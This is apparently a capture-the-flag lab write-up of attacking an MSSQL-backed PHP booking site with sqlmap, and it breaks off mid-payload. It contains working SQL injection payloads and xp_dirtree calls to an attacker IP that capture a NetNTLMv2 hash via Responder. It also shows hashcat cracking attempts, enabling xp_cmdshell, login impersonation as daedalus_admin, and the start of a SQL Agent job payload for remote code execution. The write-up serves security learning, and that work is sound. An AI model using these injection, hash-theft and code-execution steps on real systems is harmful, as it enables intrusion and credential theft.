


The first one uses the SP xp_cmdshell which runs OS commands on behalf of SQL, and if it's not active we can't do much about it, where the second run a sqlcmd.exe and is a shell within the SQLEngine to run several queries etc. Now here I tried to play around with first ones but it didn't worked out so I guess is because of xp_cmdshell is not active(OBS: it is disabled by default).

Now the SQL-shell works so my idea is to check if xp_dirtree SP is available and try to catch the NTML hash with Responder. Here the reference of the commands: https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack

```Bash
//In SqlMap:
sql-shell> xp_dirtree '\\10.10.14.14\daedalus'
[13:38:28] [INFO] fetching SQL query output: 'xp_dirtree '\\10.10.14.14\daedalus''
[13:38:28] [INFO] retrieved:
sql-shell> exec master.dbo.xp_dirtree '\\10.10.14.14\daedalus'
[13:38:54] [INFO] executing SQL data execution statement: 'exec master.dbo.xp_dirtree '\\10.10.14.14\daedalus''
exec master.dbo.xp_dirtree '\\10.10.14.14\daedalus': 'NULL'
sql-shell>


//In Responder

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.13.38.20
[SMB] NTLMv2-SSP Username : DAEDALUS\WEB01$
[SMB] NTLMv2-SSP Hash     : WEB01$::DAEDALUS:c4729727da4a5cc2:12A3F467314DB991C1D92F6D801E4F7C:010100000000000080B1E4370EA5D901F5CF719374C64F810000000002000800540034004400450001001E00570049004E002D003500500030003800370053003200500056003400330004003400570049004E002D00350050003000380037005300320050005600340033002E0054003400440045002E004C004F00430041004C000300140054003400440045002E004C004F00430041004C000500140054003400440045002E004C004F00430041004C000700080080B1E4370EA5D90106000400020000000800300030000000000000000000000000300000A91A78A69BA101E8CB1282941D5F889C1FBA4939147238E725D127D3C886A8090A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00310034000000000000000000
```

Good we have a NTLMv2 hash for the Web01 service, most likely is the service account used by SQL istance, but let's see if we can crack this hash with hashcat:

```Bash
Approaching final keyspace - workload adjusted.

Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: WEB01$::DAEDALUS:c4729727da4a5cc2:12a3f467314db991c...000000
Time.Started.....: Thu Jun 22 13:45:22 2023 (5 secs)
Time.Estimated...: Thu Jun 22 13:45:27 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2720.6 kH/s (1.03ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[216361726f6c796e] -> $HEX[042a0337c2a156616d6f732103]

Started: Thu Jun 22 13:45:21 2023
Stopped: Thu Jun 22 13:45:29 2023
```

Nothing with rockyou.txt, I guess we have to erfind a way on how to spawn a shell via Sqlmap then. Then I decided to test to enable the xp_cmdshell via the SQL shell:

```Bash
sql-shell> xp_cmdshell `whoami`
[13:49:52] [INFO] fetching SQL query output: 'xp_cmdshell `whoami`'
[13:49:52] [INFO] retrieved:
sql-shell>
sql-shell>
sql-shell>  EXEC SP_CONFIGURE 'xp_cmdshell' , 1
[13:50:05] [INFO] executing SQL data execution statement: 'EXEC SP_CONFIGURE 'xp_cmdshell' , 1'
EXEC SP_CONFIGURE 'xp_cmdshell' , 1: 'NULL'
sql-shell> reconfigure
[13:50:12] [INFO] fetching SQL query output: 'reconfigure'
[13:50:12] [INFO] retrieved:
sql-shell>
sql-shell> xp_cmdshell `whoami`
[13:50:17] [INFO] fetching SQL query output: 'xp_cmdshell `whoami`'
[13:50:17] [INFO] resumed: ''
sql-shell> exit
```

The SQLmap is not parsing perfectly the responses but seems like we get different outputs befure and after the reconfigure, and lastly testing again to run sqlmap with --os-shell and leverage that xp_cmdshell SP we get eventually an OS shell working:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# sqlmap -u http://ascension-web01/book-trip.php --batch --dbs --forms  --os-shell
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.6#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:51:21 /2023-06-22/

[13:51:21] [INFO] testing connection to the target URL
[13:51:22] [INFO] searching for forms
[13:51:22] [INFO] found a total of 2 targets
[1/2] Form:
POST http://ascension-web01/book-trip.php
POST data: destination=&adults=&children=
do you want to test this form? [Y/n/q]
> Y
Edit POST data [default: destination=&adults=&children=] (Warning: blank fields detected): destination=&adults=&children=
do you want to fill blank fields with random values? [Y/n] Y
[13:51:22] [INFO] resuming back-end DBMS 'microsoft sql server'
[13:51:22] [INFO] using '/root/.local/share/sqlmap/output/results-06222023_0151pm.csv' as the CSV results file in multiple targets mode
sqlmap resumed the following injection point(s) from stored session:
[13:51:22] [INFO] testing if current user is DBA
[13:51:22] [WARNING] functionality requested probably does not work because the current session user is not a database administrator. You can try to use option '--dbms-cred' to execute statements as a DBA user if you were able to extract and crack a DBA password by any mean
[13:51:22] [INFO] testing if xp_cmdshell extended procedure is usable
[13:51:24] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[13:51:35] [ERROR] unable to retrieve xp_cmdshell output
[13:51:35] [INFO] going to use extended procedure 'xp_cmdshell' for operating system command execution
[13:51:35] [INFO] calling Windows OS shell. To quit type 'x' or 'q' and press ENTER
os-shell>
```

But even here seems like we can't get an answer back, which can be either a real error or just a blind shell. And knowing that then I will try anyway to execute a command in the SQLmap and hope for the best. Edit: Nothing!

I went back to SQL shell and started to enumerate manually:

```Bash
//Get Version
[14:07:27] [INFO] fetching SQL SELECT statement query output: 'select @@version'
[14:07:27] [INFO] retrieved: 'Microsoft SQL Server 2017 (RTM-GDR) (KB4505224) - 14.0.2027.2 (X64) \n\tJun 15 2019 00:26:19 \n\tCopyright (C) 2017 Microso...
select @@version: 'Microsoft SQL Server 2017 (RTM-GDR) (KB4505224) - 14.0.2027.2 (X64) \n\tJun 15 2019 00:26:19 \n\tCopyright (C) 2017 Microsoft Corporation\n\tStandard Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)\n


//Get Hostname
[15:08:35] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2019 or 10 or 2016 or 2022 or 11
web application technology: Microsoft IIS 10.0, PHP 7.3.7
back-end DBMS: Microsoft SQL Server 2017
[15:08:35] [INFO] fetching server hostname
[15:08:35] [INFO] retrieved: 'SQL01'
hostname: 'SQL01'
[15:08:35] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/ascension-web01'

//Get Users
database management system users [18]:
[*] ##MS_AgentSigningCertificate##
[*] ##MS_PolicyEventProcessingLogin##
[*] ##MS_PolicySigningCertificate##
[*] ##MS_PolicyTsqlExecutionLogin##
[*] ##MS_SmoExtendedSigningCertificate##
[*] ##MS_SQLAuthenticatorCertificate##
[*] ##MS_SQLReplicationSigningCertificate##
[*] ##MS_SQLResourceSigningCertificate##
[*] daedalus
[*] daedalus_admin
[*] NT AUTHORITY\\SYSTEM
[*] NT Service\\MSSQLSERVER
[*] NT SERVICE\\SQLSERVERAGENT
[*] NT SERVICE\\SQLTELEMETRY
[*] NT SERVICE\\SQLWriter
[*] NT SERVICE\\Winmgmt
[*] sa
[*] WEB01\\svc_dev

/Get Current user
[15:13:23] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2022 or 11 or 10 or 2016 or 2019
web application technology: Microsoft IIS 10.0, PHP 7.3.7
back-end DBMS: Microsoft SQL Server 2017
[15:13:23] [INFO] fetching current user
[15:13:23] [INFO] resumed: 'daedalus'
current user: 'daedalus'
[15:13:23] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/ascension-web01'
```

From this we got that we are on Web01 server, and we are logged in as daedalus, but there is also daedalus-admin. I couldn't dump password or privilegdes, nor enable xp_cmdshell cause most probably we don't have write permissions to drop a shell in it.

I tried to check if I could impersonate as other users and for linked servers but nothing came out so far, I think I will move on and try to see if I can find other servers on the subnet.

Ok coming back I decided to check for possible IIS shortnames and there is an extra page here:

```bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads/Tools]
└─# sns -u http://web01
  ___ _ __  ___
 / __| '_ \/ __|           IIS Shortname Scanner
 \__ \ | | \__ \                     by sw33tLie
 |___/_| |_|___/ v1.2.1
________________________________________________

 Proxy:   None
 Target:  http://web01/
 Threads: 50
 Timeout: 30
________________________________________________

 - book-t~1.php* (File)
 - elemen~1.htm* (File)
________________________________________________
Done! Requests: 970, Errors: 0 , Time: 2.97s
```

Then trying to play around manually seems like there is a page /elements.html that points to another site?



And clicking the other links we can see that the page should have another name?



But even this didn´t showed something juicy so again i went back to SQLmap and checking the only infornamtion that is kinda something:  


Those proxies didn't catch my attention att first but then I searched a bit more about CMDExec in SQLMAP and are basically like a replacement for the old XP_cmdshell and is used together with SQLAgent to run scheduled jobs for ex backup, run scripts, interact with OS.

This YT video explain more about what are and how you can setup one in SSMS: https://www.youtube.com/watch?v=wEKsf8IHxwc&t=98s

Or this will explain more in detail about our side, the attacker one: https://www.optiv.com/explore-optiv-insights/blog/mssql-agent-jobs-command-execution

Then I checked for tips and apparently seems like sometimes the old SqlMap fails to feed queries into DB with blind injections and the solution to avoid this problem we got that many queries give back void results is to send those queries manually instead..

First thing we want to do is to dump the roles mapped with DB roles and first we wanrt to see if we can write a table into DB :

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# sqlmap -u http://daedalus.htb/book-trip.php --data "destination=Zimbawe&adults=2&children=1" --dbms mssql --batch --hex -D daedalus --tables --proxy="http://127.0.0.1:8080" --sql-query="CREATE TABLE roles (username sysname, rolename sysname);" 
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.6#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:25:34 /2023-06-23/

[19:25:34] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: destination (POST)
    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: destination=Zimbawe' AND 3373 IN (SELECT (CHAR(113)+CHAR(112)+CHAR(106)+CHAR(106)+CHAR(113)+(SELECT (CASE WHEN (3373=3373) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(113)+CHAR(118)+CHAR(106)+CHAR(113)))-- Hrmu&adults=2&children=1

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: destination=Zimbawe';WAITFOR DELAY '0:0:5'--&adults=2&children=1

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: destination=Zimbawe' WAITFOR DELAY '0:0:5'-- zAjU&adults=2&children=1
---
[19:25:35] [INFO] testing Microsoft SQL Server
[19:25:35] [INFO] confirming Microsoft SQL Server
[19:25:35] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 11 or 10 or 2016 or 2022 or 2019
web application technology: PHP 7.3.7, Microsoft IIS 10.0
back-end DBMS: Microsoft SQL Server 2017
[19:25:35] [INFO] fetching tables for database: daedalus
[19:25:35] [WARNING] the SQL query provided does not return any output
[19:25:35] [INFO] resumed: 'dbo.Countries'
[19:25:35] [INFO] resumed: 'dbo.Flights'
[19:25:35] [INFO] resumed: 'dbo.packages'
[19:25:35] [INFO] resumed: 'dbo.proxies'
[19:25:35] [INFO] resumed: 'dbo.roles'
[19:25:35] [INFO] resumed: 'dbo.sqlmapfile'
Database: daedalus
[6 tables]
+------------+
| Countries  |
| Flights    |
| packages   |
| proxies    |
| roles      |
| sqlmapfile |
+------------+

[19:25:35] [INFO] executing SQL data definition statement: 'CREATE TABLE roles (username sysname, rolename sysname)'
CREATE TABLE roles (username sysname, rolename sysname): 'NULL'
[19:25:35] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/daedalus.htb'

[*] ending @ 19:25:35 /2023-06-23/
```

Good we have a table, then we want to inject into every table a SQL query that fetch data from other tables something which I didn't know was possible: https://stackoverflow.com/questions/25969/insert-into-values-select-from

And the mapping of user can be done by using this query: https://learn.microsoft.com/en-us/sql/relational-databases/system-catalog-views/sys-database-role-members-transact-sql?view=sql-server-ver15#example

And sending something similar:

```SQL
USE daedalus;SELECT DP1.name AS DatabaseRoleName, isnull (DP2.name, 'No members') AS DatabaseUserName FROM sys.database_role_members AS DRM RIGHT OUTER JOIN sys.database_principals AS DP1 ON DRM.role_principal_id = DP1.principal_id LEFT OUTER JOIN sys.database_principals AS DP2 ON DRM.member_principal_id = DP2.principal_id WHERE DP1.type = 'R' ORDER BY DP1.name;
```

And feeding time:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# sqlmap -u http://daedalus.htb/book-trip.php --data "destination=Zimbawe&adults=2&children=1" --dbms mssql --batch --hex -D daedalus --sql-query="INSERT INTO roles(username, rolename) SELECT DP1.name AS DatabaseRoleName, isnull (DP2.name, 'No members') AS DatabaseUserName FROM sys.database_role_members AS DRM RIGHT OUTER JOIN sys.database_principals AS DP1 ON DRM.role_principal_id = DP1.principal_id LEFT OUTER JOIN sys.database_principals AS DP2 ON DRM.member_principal_id = DP2.principal_id WHERE DP1.type = 'R' ORDER BY DP1.name;"
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.6#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:58:19 /2023-06-23/

[19:58:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: destination (POST)
    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: destination=Zimbawe' AND 3373 IN (SELECT (CHAR(113)+CHAR(112)+CHAR(106)+CHAR(106)+CHAR(113)+(SELECT (CASE WHEN (3373=3373) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(113)+CHAR(118)+CHAR(106)+CHAR(113)))-- Hrmu&adults=2&children=1

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: destination=Zimbawe';WAITFOR DELAY '0:0:5'--&adults=2&children=1

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: destination=Zimbawe' WAITFOR DELAY '0:0:5'-- zAjU&adults=2&children=1
---
[19:58:19] [INFO] testing Microsoft SQL Server
[19:58:19] [INFO] confirming Microsoft SQL Server
[19:58:19] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2016 or 11 or 10 or 2022 or 2019
web application technology: Microsoft IIS 10.0, PHP 7.3.7
back-end DBMS: Microsoft SQL Server 2017
[19:58:19] [INFO] executing SQL data manipulation statement: 'INSERT INTO roles(username, rolename) SELECT DP1.name AS DatabaseRoleName, isnull (DP2.name, 'No members') AS DatabaseUserName FROM sys.database_role_members AS DRM RIGHT OUTER JOIN sys.database_principals AS DP1 ON DRM.role_principal_id = DP1.principal_id LEFT OUTER JOIN sys.database_principals AS DP2 ON DRM.member_principal_id = DP2.principal_id WHERE DP1.type = 'R' ORDER BY DP1.name'
[19:58:19] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                               
INSERT INTO roles(username, rolename) SELECT DP1.name AS DatabaseRoleName, isnull (DP2.name, 'No members') AS DatabaseUserName FROM sys.database_role_members AS DRM RIGHT OUTER JOIN sys.database_principals AS DP1 ON DRM.role_principal_id = DP1.principal_id LEFT OUTER JOIN sys.database_principals AS DP2 ON DRM.member_principal_id = DP2.principal_id WHERE DP1.type = 'R' ORDER BY DP1.name: 'NULL'
[19:58:22] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/daedalus.htb'

[*] ending @ 19:58:22 /2023-06-23/
```

And then sending a new query with "flush-session" in order to refresh and avoid caching of same queries seems like we have it working!

Ok now we should check what user can we eventually impersonate?

I will use this as source: https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#impersonation-of-other-users

First we create a new table again:

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# sqlmap -u http://daedalus.htb/book-trip.php --data "destination=Zimbawe&adults=2&children=1" --dbms mssql --batch --hex -D daedalus --sql-query="CREATE TABLE impersonate ([username] varchar(255));";
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.6#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:15:35 /2023-06-23/

[20:15:35] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: destination (POST)
    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: destination=Zimbawe' AND 6154 IN (SELECT (CHAR(113)+CHAR(107)+CHAR(106)+CHAR(122)+CHAR(113)+(SELECT (CASE WHEN (6154=6154) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(106)+CHAR(122)+CHAR(113)+CHAR(113)))-- zxoT&adults=2&children=1

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: destination=Zimbawe';WAITFOR DELAY '0:0:5'--&adults=2&children=1

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: destination=Zimbawe' WAITFOR DELAY '0:0:5'-- wJWv&adults=2&children=1
---
[20:15:35] [INFO] testing Microsoft SQL Server
[20:15:35] [INFO] confirming Microsoft SQL Server
[20:15:35] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 11 or 2019 or 2016 or 10 or 2022
web application technology: Microsoft IIS 10.0, PHP 7.3.7
back-end DBMS: Microsoft SQL Server 2017
[20:15:35] [INFO] executing SQL data definition statement: 'CREATE TABLE impersonate ([username] varchar(255))'
CREATE TABLE impersonate ([username] varchar(255)): 'NULL'
[20:15:36] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/daedalus.htb'

[*] ending @ 20:15:36 /2023-06-23/
```

Check it in the list:



Nice and now we can insert into table the query from bookhacktricks to make it look like this:

```SQL
INSER INTO impersonate (username) SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```



And lastly dumping it should give us al list of all the usernames we can impersonate.



Ok we can impersonate as daedalus_admin, nice I guess he have permission to run those SQL Agent jobs and abuse the CMDEXEC/POWERSHELL proxies in order to get us or first RCE.

For the impersionation I don't think we have to add any other table but instead we should be able to use the SQL-shell interactive as leverage:

```Bash
web server operating system: Windows 2019 or 11 or 2022 or 10 or 2016
web application technology: Microsoft IIS 10.0, PHP 7.3.7
back-end DBMS: Microsoft SQL Server 2017
[20:34:37] [INFO] executing SQL data execution statement: 'EXECUTE AS LOGIN = 'daedalus_admin''
EXECUTE AS LOGIN = 'daedalus_admin': 'NULL'
[20:34:37] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/daedalus.htb'

[*] ending @ 20:34:37 /2023-06-23/
```

Now everithing seems more clear here, we know we have 2 different proxies one for powershell and the other for CMDEXE so I will use this guide to gain RCE: https://www.optiv.com/explore-optiv-insights/blog/mssql-agent-jobs-command-execution

The given payload is pretty usable, but we will have to do a small adjustment to tell the query to execute as delalus_admin etc, but let's analyze for a moment the payload:



As we see here the payload follows as:

1.  A new Agent job is created
2.  A new Job step is created and added to the Job from step 1, here is where the magic happens and the script is added to reach a RCE, here we will have to adjust a bit the query and link this step to existing Poweshell proxy we found at the beginning on id 1.
3.  Targets the job created on step 1 to this server
4.  Finally the jobs is kicked in

And forming the payload from the picture it should be something similar to this one:

```Bash
USE msdb;
EXECUTE AS LOGIN = N'daedalus_admin';
EXEC dbo.sp_add_job @job_name = N'yovecio_job';
